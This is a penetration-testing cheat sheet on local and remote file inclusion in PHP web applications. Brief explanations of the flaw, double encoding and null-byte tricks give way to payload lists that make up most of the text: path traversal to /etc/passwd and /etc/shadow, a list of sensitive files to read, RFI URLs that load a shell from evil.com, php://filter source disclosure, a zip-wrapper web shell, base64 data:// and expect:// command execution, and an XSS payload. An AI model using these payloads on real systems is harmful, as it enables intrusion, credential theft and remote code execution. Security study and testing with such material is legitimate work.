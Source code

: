 # Local File & Remote File Inclusion

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a “dynamic file inclusion” mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

Local file inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. 

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application.

These vulnerabilities occur, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing a local file or external URL to be injected.

Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

[Testing for LFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion.html)

[Testing for RFI](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html)


## Vulnerable Code Examples:
PHP:
```
<?php
$page = $_GET[page];
include($page);
?>
```

## Double Encoding
This attack technique consists of encoding user request parameters twice in hexadecimal format in order to bypass security controls or cause unexpected behavior from the application. It’s possible because the webserver accepts and processes client requests in many encoded forms.

By using double encoding it’s possible to bypass security filters that only decode user input once. The second decoding process is executed by the backend platform or modules that properly handle encoded data, but don’t have the corresponding security checks in place.

[Read more here](https://owasp.org/www-community/Double_Encoding)

## Null Byte
In many operating systems, null bytes %00 can be injected to terminate the filename. For example, sending a parameter like `?file=secret.doc%00.pdf` will result in a Java application seeing a string that ends with “.pdf” and the operating system will see a file that ends in “.doc”. Attackers may use this trick to bypass validation routines.

## Basic LFI (Including Null Byte & Double Encoding)
```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

Files to check out if LFI is working:
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

## Basic RFI (Including Null Byte & Double Encoding)
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

## LFI/RFI Wrappers

### LFI Wrapper rot13 and base64 via php://filter
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

Can be chained with a compression wrapper:
```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

### LFI Wrapper ZIP
```
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### RFI Wrapper DATA with "" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

### RFI Wrapper EXPECT
```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

### XSS with "" payload
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## LFI to RCE

### Via `/proc/*/fd`:
- Upload a lot of shells (for example : 100)
- Include `http://example.com/index.php?page=/proc/$PID/fd/$FD` with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

### Via File Upload:
```
http://example.com/index.php?page=path/to/uploaded/file.png
```

